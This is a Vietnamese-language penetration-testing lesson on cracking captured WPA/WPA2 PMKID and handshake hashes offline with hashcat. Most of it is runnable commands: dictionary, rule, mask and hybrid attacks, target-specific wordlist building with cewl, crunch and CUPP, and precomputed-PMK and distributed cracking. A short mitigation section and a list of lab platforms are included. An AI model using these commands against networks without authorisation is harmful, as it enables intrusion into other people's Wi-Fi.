

> **Prerequisites**: [[03-4way-handshake-capture|03. 4-Way Handshake Capture]] · [[04-pmkid-clientless-attack|04. PMKID Clientless Attack]]
> **Objectives**:
> - Master hashcat `-m 22000` unified WPA format
> - Xây dựng wordlist thông minh từ OSINT và pattern analysis
> - Áp dụng rule engineering để expand wordlist
> - Thực hiện mask attacks và hybrid attacks cho unknown patterns

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Có file `.hc22000` từ PMKID hoặc handshake capture
> - GPU (khuyến nghị) hoặc CPU (chậm hơn ~100x)
> - Wordlist phù hợp với target (language, patterns)
>
> [!tip] Tại sao hashcat -m 22000?
> Mode cũ `-m 2500` (hccapx) đã deprecated từ hashcat v6.0. `-m 22000` là unified format xử lý cả PMKID (`WPA*01*`) và EAPOL handshake (`WPA*02*`) trong cùng một run.
>
---

## Cơ chế tấn công

### Quá trình verify password candidate

Với mỗi password candidate `p`, hashcat thực hiện:

```python
# 1. Derive PMK
PMK = PBKDF2_SHA1(p, SSID, iterations=4096, dklen=32)

# 2a. Nếu PMKID record (WPA*01*):
PMKID_candidate = HMAC_SHA1_128(PMK, b"PMK Name" + AP_MAC + STA_MAC)
if PMKID_candidate == captured_PMKID: FOUND!

# 2b. Nếu EAPOL record (WPA*02*):
PTK = PRF512(PMK, ANonce, SNonce, AP_MAC, STA_MAC)
KCK = PTK[0:16]
MIC_candidate = HMAC_SHA1(KCK, EAPOL_frame)[0:16]
if MIC_candidate == captured_MIC: FOUND!
```

**Bottleneck**: PBKDF2-SHA1 với 4096 iterations — deliberate slow KDF. Trên RTX 4090: ~1.5M PMKIDs/giây cho WPA2. So sánh với NTLM: ~200B/giây.

### Attack Modes

| Mode | Hashcat flag | Mô tả |
|------|-------------|-------|
| Dictionary | `-a 0` | Test từng word trong wordlist |
| Combination | `-a 1` | Ghép 2 wordlists |
| Mask (brute) | `-a 3` | Brute force theo pattern |
| Hybrid dict+mask | `-a 6` | word + mask suffix |
| Hybrid mask+dict | `-a 7` | mask prefix + word |

---

## Quy trình tấn công

**Bước 1 — Verify hash file và extract metadata**

```bash
# Xem nội dung hash file
head -3 hashes.hc22000

# Extract SSID (hex encoded trong hash)
# WPA*02*<mic>*<ap_mac>*<sta_mac>*<ssid_hex>*<anonce>*<eapol_hex>*<keyver>
echo "486f6d654e6574" | xxd -r -p   # decode SSID hex → HomeNet

# Dùng hcxpcapngtool với verbose để xem metadata
hcxpcapngtool capture.pcapng --all -o hashes.hc22000
```

**Bước 2 — Dictionary attack cơ bản**

```bash
# rockyou (14M passwords — start here)
hashcat -m 22000 hashes.hc22000 /usr/share/wordlists/rockyou.txt

# WiFi-specific wordlists
hashcat -m 22000 hashes.hc22000 /usr/share/wordlists/wifite.txt

# Multiple wordlists
hashcat -m 22000 hashes.hc22000 wordlist1.txt wordlist2.txt
```

> **Expected output**:
> ```bash
> WPA*02*...*HomeNet*...:password123
> Session..........: hashcat
> Status...........: Cracked
```

**Bước 3 — Rule-based attack**

Rules transform mỗi word: capitalize, append numbers, leet-speak, v.v.

```bash
# best64.rule (64 rules phổ biến nhất)
hashcat -m 22000 hashes.hc22000 rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule

# d3ad0ne.rule (aggressive — 34K rules)
hashcat -m 22000 hashes.hc22000 rockyou.txt \
    -r /usr/share/hashcat/rules/d3ad0ne.rule

# Stack multiple rules
hashcat -m 22000 hashes.hc22000 rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule \
    -r /usr/share/hashcat/rules/toggles1.rule
```

**Custom rule construction** — tạo rules từ pattern SSID:

```bash
# Ví dụ: target SSID "CompanyWifi2024" → patterns: Company2024!, company@2024
cat > custom.rule << 'EOF'
# Append numbers
$2$0$2$4
$2$0$2$3
# Capitalize first
c
# Append symbols
$!
$@
$1$2$3
# Leet speak
sa@ se3 si1 so0
EOF

hashcat -m 22000 hashes.hc22000 custom_base.txt -r custom.rule
```

**Bước 4 — Xây dựng target-specific wordlist**

```bash
# Dùng cewl từ company website
cewl https://targetcompany.com -m 6 -d 2 -w company_words.txt

# Kết hợp với SSID patterns
cat > ssid_patterns.txt << 'EOF'
HomeNet
HomeNet2024
HomeNet@2024
homenet123
HOMENET
EOF

# Dùng crunch để generate password theo pattern
# Format: HomeNet + 4 digits
crunch 12 12 -t HomeNet@@@@ -o homelike.txt

# Dùng CUPP (common user password profiler)
pip install cupp
python3 cupp.py -i   # interactive mode — nhập thông tin về target
```

**Bước 5 — Mask attack (khi pattern đã biết)**

Mask syntax: `?u`=upper, `?l`=lower, `?d`=digit, `?s`=special, `?a`=all

```bash
# 8 digits (common ISP default)
hashcat -m 22000 hashes.hc22000 -a 3 ?d?d?d?d?d?d?d?d

# WiFi password common pattern: Word + 4 digits
# (cần wordlist cho phần Word)
hashcat -m 22000 hashes.hc22000 -a 6 rockyou.txt ?d?d?d?d

# Upper + lower + digits, 8-12 chars
hashcat -m 22000 hashes.hc22000 -a 3 \
    --increment --increment-min=8 \
    ?u?l?l?l?d?d?d?d

# Custom charset
hashcat -m 22000 hashes.hc22000 -a 3 \
    -1 0123456789 \
    ?1?1?1?1?1?1?1?1   # 8 digits với custom charset
```

**Bước 6 — Hybrid attack**

```bash
# Dict + mask: password → password2024, password123, password!
hashcat -m 22000 hashes.hc22000 -a 6 rockyou.txt ?d?d?d?d

# Mask + dict: 2024password, 123password
hashcat -m 22000 hashes.hc22000 -a 7 ?d?d?d?d rockyou.txt
```

**Bước 7 — GPU optimization**

```bash
# Check GPU available
hashcat -I

# Optimize for GPU (disable CPU)
hashcat -m 22000 hashes.hc22000 wordlist.txt -D 2  # D=2: GPU only

# Workload profile 4 (max performance)
hashcat -m 22000 hashes.hc22000 wordlist.txt -w 4

# Show progress without launching
hashcat -m 22000 hashes.hc22000 wordlist.txt --keyspace
```

---

## Biến thể & Bypass

### Rainbow Table / Precomputed PMKs

PMK phụ thuộc vào cả passphrase VÀ SSID. Các rainbow tables tồn tại cho SSIDs phổ biến:

```bash
# cowpatty với precomputed PMK database
cowpatty -f /path/to/pmk_database.db -r capture.pcap -s "HomeNet"

# Tạo precomputed hash với genpmk
genpmk -f wordlist.txt -d pmk.db -s "TargetSSID"
cowpatty -d pmk.db -r capture.pcap -s "TargetSSID"
```

### Distributed cracking (hashcat brain)

```bash
# Server (master)
hashcat -m 22000 hashes.hc22000 rockyou.txt --brain-server

# Client (worker)
hashcat -m 22000 hashes.hc22000 rockyou.txt \
    --brain-client --brain-host 192.168.1.1:13743
```

### CPU cracking (không có GPU)

```bash
# Aircrack-ng (CPU, đơn giản hơn)
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt

# john the ripper
hcxpcapngtool capture.pcapng --john=hashes.john
john hashes.john --wordlist=rockyou.txt
```

---

## Cây quyết định



---

## Command Cheatsheet

**Dictionary attacks**

```bash
# Basic dictionary
hashcat -m 22000 hashes.hc22000 rockyou.txt

# With rules
hashcat -m 22000 hashes.hc22000 rockyou.txt -r best64.rule
hashcat -m 22000 hashes.hc22000 rockyou.txt -r d3ad0ne.rule

# WiFi wordlists
hashcat -m 22000 hashes.hc22000 /usr/share/wordlists/wifite.txt
```

**Mask attacks**

```bash
# 8 digits (ISP default)
hashcat -m 22000 hashes.hc22000 -a 3 ?d?d?d?d?d?d?d?d

# Word + 4 digits (hybrid)
hashcat -m 22000 hashes.hc22000 -a 6 rockyou.txt ?d?d?d?d

# Upper+lower+digit 8-12 chars
hashcat -m 22000 hashes.hc22000 -a 3 --increment --increment-min=8 ?a?a?a?a?a?a?a?a
```

**Wordlist construction**

```bash
# cewl từ website
cewl https://target.com -m 6 -d 2 -w words.txt

# crunch by pattern
crunch 8 12 -t @@@@?d?d?d?d -o generated.txt
# @@@@: 4 lowercase letters, ?d?d?d?d: 4 digits

# CUPP profiling
python3 cupp.py -i
```

**Show và resume**

```bash
# Show cracked passwords
hashcat -m 22000 hashes.hc22000 --show

# Resume interrupted session
hashcat -m 22000 hashes.hc22000 rockyou.txt --restore

# Estimate keyspace
hashcat -m 22000 hashes.hc22000 rockyou.txt --keyspace
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 10 ngày đầu.

**Drill 1 — hashcat mode selection**
Mục tiêu: nhìn hash là biết ngay command.

```bash
head -1 hashes.hc22000
# WPA*01* → PMKID record
# WPA*02* → Handshake record
# Cả hai đều dùng: hashcat -m 22000
```

Luyện cho đến khi: nhận ra format trong 3 giây.

**Drill 2 — Attack escalation**
Mục tiêu: gõ đúng thứ tự escalation không nhìn notes.

```bash
hashcat -m 22000 h.hc22000 rockyou.txt               # step 1
hashcat -m 22000 h.hc22000 rockyou.txt -r best64.rule # step 2
hashcat -m 22000 h.hc22000 rockyou.txt -a 3 ?d?d?d?d?d?d?d?d # step 3
hashcat -m 22000 h.hc22000 rockyou.txt -a 6 rockyou.txt ?d?d?d?d # step 4
```

Luyện cho đến khi: gõ 4 lệnh theo thứ tự không dừng lại.

**Drill 3 — Rule syntax**
Mục tiêu: viết rule cơ bản không lookup documentation.

```text
c      → capitalize first letter
$1$2$3 → append "123"
$!     → append "!"
sa@    → replace a with @
u      → uppercase all
l      → lowercase all
r      → reverse
```

Luyện cho đến khi: viết 5 rules từ đầu trong 60 giây.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> Cracking xảy ra **hoàn toàn offline** — không có network traffic để detect.
> Duy nhất indicator là thời điểm handshake/PMKID bị capture (xem Lesson 03, 04).
>
> [!note] Mitigation — Passphrase Strength
> - Minimum 20 ký tự random (uppercase + lowercase + digits + symbols)
> - Tránh dictionary words, SSID name, dates, phone numbers
> - Dùng password manager để generate và store
> - Ví dụ passphrase mạnh: `Xk9#mP2$vL8@nQ4wR` (17 chars, ~60 bits entropy)
> - Passphrase này với rockyou + best64 rules: crack trong vài triệu năm
>
---

## Lab Thực hành

| Platform | Machine/Module | Technique |
|----------|---------------|---------|
| HTB Academy | **Wi-Fi Password Cracking Techniques** | hashcat, rules, masks |
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | Full cracking pipeline |
| Local | hashcat.net example hashes | Practice không cần capture |
| Local | `hashcat -m 22000 example.hc22000 rockyou.txt` | Speed benchmarks |

---

## Field Manual Entry

> [!abstract] Offline Cracking Pipeline — Quick Reference
> **Điều kiện**: Có .hc22000 file
> **Lệnh nhanh**: `hashcat -m 22000 hashes.hc22000 rockyou.txt`
> **Escalation**: dict → dict+rules → mask ?d×8 → hybrid -a 6 → d3ad0ne.rule
> **Show result**: `hashcat -m 22000 hashes.hc22000 --show`
> **Detection**: Không detect được (offline) — chỉ detect lúc capture
> **Ref**: [[05-offline-cracking-pipeline|05. Offline Cracking Pipeline]]
>